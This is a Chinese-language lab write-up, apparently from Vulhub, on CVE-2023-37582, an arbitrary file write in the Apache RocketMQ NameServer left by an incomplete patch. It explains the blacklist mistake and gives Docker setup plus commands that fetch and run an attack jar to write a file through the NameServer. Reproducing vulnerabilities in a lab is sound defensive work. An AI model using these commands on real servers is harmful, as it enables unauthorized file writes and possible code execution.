

Apache RocketMQ NameServer 任意文件写入漏洞（CVE-2023-37582）¶
Apache RocketMQ是一个分布式消息和流处理平台，具有低延迟、高性能和可靠性、万亿级容量和灵活的可扩展性。
在RocketMQ版本5.1.1及以下版本中，NameServer组件存在一个任意文件写入漏洞。该漏洞存在于RocketMQ的NameServer组件的配置更新功能中。通过向NameServer发送UPDATE_NAMESRV_CONFIG命令，攻击者可以修改configStorePath配置项及其内容，从而导致任意文件写入。
该漏洞源于对CVE-2023-33246的不完全修复。在处理CVE-2023-33246时，官方团队建立了一个不能被修改的配置项黑名单。然而，补丁错误地将黑名单指定为configStorePathName，而应该是configStorePath，导致了这一结果。
参考链接：
- https://github.com/apache/rocketmq/pull/6843
- https://drun1baby.top/2023/11/21/CVE-2023-37582-Apache-RocketMQ-RCE-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/
- https://github.com/Malayke/CVE-2023-37582_EXPLOIT
漏洞环境¶
执行如下命令启动一个RocketMQ NameServer 5.1.0：
docker compose up -d
环境启动后，RocketMQ的NameServer将会监听在9876端口。
漏洞复现¶
使用这个工具来复现漏洞并写入任意文件：
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.1/rocketmq-attack-1.1-SNAPSHOT.jar
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target your-ip:9876 --path "/tmp/success" --content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
执行完成后，可以验证文件是否写入成功：
cat /tmp/success
可见，内容写入成功：
